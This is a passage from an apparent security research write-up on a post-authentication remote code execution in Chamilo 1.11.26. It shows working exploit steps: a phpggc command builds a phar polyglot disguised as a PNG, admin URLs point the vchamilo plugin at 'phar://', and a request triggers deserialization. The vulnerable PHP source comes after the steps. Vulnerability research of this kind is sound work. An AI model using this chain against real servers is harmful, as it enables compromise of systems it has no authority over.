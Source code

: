 ### Trigger Phar Unserialize

<img class="img_full" src="/offenskill/chamilo-1.11.26-post-auth-rce-via-phar-unserialize-polyglot/trigger-rce-unserialize.png" alt="trigger-rce-unserialize">

### Putting it all together

I'm too lazy to script today, but here are the URLs, feel free to *click click* your way through, or offer a script to the community! ;)

```bash
# Enable Virtualization plugin
http://127.0.0.1:8000/main/admin/settings.php?category=Plugins
# Generate phar payload
phpggc -p phar -o foo.png monolog/rce1 system id
# Upload phar as foo.png & get relative path/url (right-click + get-infos)
http://127.0.0.1:8000/main/social/myfiles.php
# Set "Container effectif" de cours (chemin réel) to "phar://"
http://127.0.0.1:8000/main/admin/configure_plugin.php?name=vchamilo
# Empty cache: It's needed while you test, otherwise the cache won't let you replay/retry
http://127.0.0.1:8000/main/admin/archive_cleanup.php
# Trigger phar unserialize
http://127.0.0.1:8000/plugin/vchamilo/views/manage.testdatapath.php?dataroot=/var/www/chamilo/app/upload/users/1/1/my_files/foo.png
```

## Now, let's analyze the code

This won't be long as -almost- one file is used by this exploit.\
Sometimes exposed features and a `touch of intuition` are enough!

The involved code lives in `/var/www/chamilo/plugin/vchamilo/views/manage.testdatapath.php`

```php
<?php
// -[SNIP]-
require_once __DIR__.'/../../../main/inc/global.inc.php';
api_protect_admin_script();
$plugin = VChamiloPlugin::create();

$dataroot = $_REQUEST['dataroot'];
$absalternatecourse = Virtual::getConfig('vchamilo', 'course_real_root');
if (!empty($absalternatecourse)) {
    $coursedir = str_replace('//', '/', $absalternatecourse.'/'.$dataroot);
} else {
    $coursedir = api_get_path(SYS_PATH).$dataroot;
}

if (is_dir($coursedir)) {
    $DIR = opendir($coursedir);
    $cpt = 0;
    $hasfiles = false;
    while (($file = readdir($DIR)) && !$hasfiles) {
        if (!preg_match("/^\\./", $file)) {
            $hasfiles = true;
        }
    }
    closedir($DIR);
    // -[SNIP]-
} else {
    // -[SNIP]-
}
// -[SNIP]-
```

